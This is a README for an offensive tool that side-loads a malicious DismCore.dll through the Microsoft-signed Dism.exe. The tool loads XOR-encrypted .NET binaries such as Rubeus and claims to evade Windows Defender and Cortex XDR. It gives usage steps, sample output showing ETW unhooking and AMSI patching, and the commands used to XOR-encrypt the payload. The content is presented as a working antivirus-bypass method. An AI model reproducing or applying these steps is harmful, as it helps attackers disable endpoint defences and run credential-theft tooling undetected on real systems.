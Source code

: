 # Dism DLL Side Loader
Combine Microsoft signed Dism and dll side load netloader to load c# or .NET binary to bypass AV. 
Tested on 22-10-2022 with Cortex XDR and Windows Defender.

## Usage
Compile the dll library, change name of dll to "DismCore.dll", put Dism.exe and DismCore.dll in the same directory and run.

```
.\Dism.exe
[+] Successfully unhooked ETW!
[+] Successfully patched AMSI!
==>Path: D:\tools\xor_rubeus
==>key: P
==>args:
[+] Decrypting XOR encrypted binary using key 'P'
[+] URL/PATH : D:\tools\AV bypass\Netloader_orginal\xor_ru Arguments :

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0
```
## Encrypt XOR binary
use xor&#46;py
### Encryption
```
cat Rubeus.exe | python xor.py "P" > xor_ru
```
### Decryption
```
cat xor_ru | python xor.py "P" > Rubeus.exe
```
## TODO
Add AES encryption

## Credit
May need to run DllExport.bat before compile.
https://jackkuo.org/post/export_unmanaged_dll_from_csharp/

Netloader
https://github.com/Flangvik/NetLoader

xor&#46;py
https://github.com/ShawnDEvans/xorpy

Thank you darklab people. Especially Erwin and Dennis ^^
